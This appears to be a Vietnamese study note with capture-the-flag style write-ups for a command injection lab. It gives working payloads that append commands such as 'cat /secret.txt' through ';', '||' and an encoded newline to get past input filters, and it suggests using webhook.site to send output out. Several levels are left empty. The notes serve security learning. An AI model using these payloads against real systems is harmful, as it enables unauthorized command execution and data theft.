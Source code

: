 # Bản chất command injection

#hackTrick Chính là `kéo dài - nối dài - nhét thêm` các instruction để thao túng đổi tượng
	![](Pasted%20image%2020230310192851.png)
#### Tại sao user input bị lọt vào os command

# Write-ups
[LAB Ở ĐÂY NHÁ !!!](https://github.com/williamdunbar/W1ll14m-Notebook/tree/master/Cyber%20Jutsu/command_injection)
## Lelvel 1
```
google.com ; cat /secret.txt
```

## Lelvel 2
https://www.gnu.org/software/bash/manual/html_node/Lists.html
### BrainStorm Board
#### Ta có
1. Là untrusted data đã rơi vào hàm nguy hiểm là system()
#### Vấn đề
1.  Không thể dùng dấu `;` để kéo dài instruction ra nữa
	```php
		if (strpos($target, ";") !== false) 
            die("Hacker detected!");
	```
#### Hướng tiếp cận
- Tìm một

#### Đáp án
```
|| cat /secret.txt
```

## Lelvel 3
https://www.gnu.org/software/bash/manual/html_node/Lists.html
- Idea là sử dụng multiple command. Ở đây là việc sử dụng phép xuống tròng trong terminal
- Thông thường trong `\n` là xuống dòng, tuy nhiên ở đây vì thực hiện trên terminal nên ta phải tham khảo mã ascii của newline
	![](./images/Pasted%20image%2020230310213809.png)
#### Đáp án
```
8.8.8.8 %0als -l
```

## Lelvel 4

#pieceknowledege webhook là tạo ra các 
[https://webhook.site](https://webhook.site)
### BrainStorm Board
#### Ta có

#### Vấn đề
1.  Không hiển thị được kết quả thực thi console	

#### Hướng tiếp cận
- Tại sao chúng ta không sử dụng một phương pháp nào đó để tuồn thông tin ra ngoài

#### Đáp án
```

```

## Lelvel 5

## Lelvel 6

## Lelvel 7

